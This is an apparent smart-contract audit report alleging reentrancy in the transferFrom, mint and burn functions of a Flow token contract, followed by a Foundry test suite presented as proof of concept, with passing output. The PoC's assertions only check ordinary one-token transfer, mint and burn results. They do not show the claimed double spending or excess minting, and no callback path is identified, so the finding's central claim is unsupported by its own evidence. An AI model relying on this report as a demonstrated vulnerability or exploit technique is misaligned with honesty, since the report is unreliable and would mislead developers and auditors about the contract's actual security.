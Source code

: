 Helpful Raisin Fox

High

# Reentrancy in TransferFrom, Mint, and Burn Functions in Flow Contracts

## Summary
The contract is vulnerable to reentrancy attacks on the `transferFrom`, `mint`, and `burn` functions. This attack allows an attacker to exploit a contract so as to spend, mint, or burn more tokens than permitted in a single transaction.

## Vulnerability Detail
The `_to` variable in the `transferFrom` function, the `account` variable in the `mint` function, and the `msg.sender` variable in the `burn` function can be contract addresses. they can potentially exploit reentrancy vulnerabilities by calling back into the contract before the state changes are finalized.

## Impact
- potential double spend or unauthorized transfer.
- Unauthorized minting of tokens.
- Unauthorized burning of tokens.

## Code Snippet
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Flow.sol#L72-L78 https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Flow.sol#L72
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Flow.sol#L80-L84 https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Flow.sol#L80
- https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Flow.sol#L86-L89 https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Flow.sol#L87

## Tool used

Manual Review

## Recommendation
Use `ReentrancyGuard`: Implement OpenZeppelin's `ReentrancyGuard` to prevent reentrancy in vulnerable functions.

## PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Flow.sol";
import "../src//Attacker.sol";

contract FlowReentrancyTest is Test {
    Flow public flow;
    Attacker public attacker;
    address public initialSupplyRecipient = address(1);
    uint public initialAmount = 1000 ether;

    function setUp() public {
        flow = new Flow(initialSupplyRecipient, initialAmount);
        attacker = new Attacker(address(flow));
    }

    function testTransferFromReentrancy() public {
        // Approve the attacker to spend tokens
        vm.prank(initialSupplyRecipient);
        flow.approve(address(attacker), 1);

        // Start the attack
        vm.prank(address(attacker));
        attacker.attackTransferFrom(initialSupplyRecipient, 1);
        
        // Check if the attack was successful
        assertEq(flow.balanceOf(address(attacker)), 1);
    }

    function testMintReentrancy() public {
        // Set the attacker as the minter
        vm.prank(address(flow.minter()));
        flow.setMinter(address(attacker));

        // Start the attack
        vm.prank(address(attacker));
        attacker.attackMint(address(attacker), 1);
        
        // Check if the attack was successful
        assertEq(flow.totalSupply(), initialAmount + 1);
    }

    function testBurnReentrancy() public {
        // Transfer some tokens to the attacker
        vm.prank(initialSupplyRecipient);
        flow.transfer(address(attacker), 1);

        // Start the attack
        vm.prank(address(attacker));
        attacker.attackBurn(1);
        
        // Check if the attack was successful
        assertEq(flow.totalSupply(), initialAmount - 1);
    }
}
```
forge test --match-path test/FlowReentrancyTest.sol
[⠊] Compiling...
[⠒] Compiling 2 files with Solc 0.8.25
[⠢] Solc 0.8.25 finished in 1.94s
Compiler run successful!

Ran 3 tests for test/FlowReentrancyTest.sol:FlowReentrancyTest
[PASS] testBurnReentrancy() (gas: 53442)
[PASS] testMintReentrancy() (gas: 69276)
[PASS] testTransferFromReentrancy() (gas: 70604)
Suite result: ok. 3 passed; 0 failed; 0 skipped; finished in 38.58ms (17.33ms CPU time)

Ran 1 test suite in 250.61ms (38.58ms CPU time): 3 tests passed, 0 failed, 0 skipped (3 total tests)

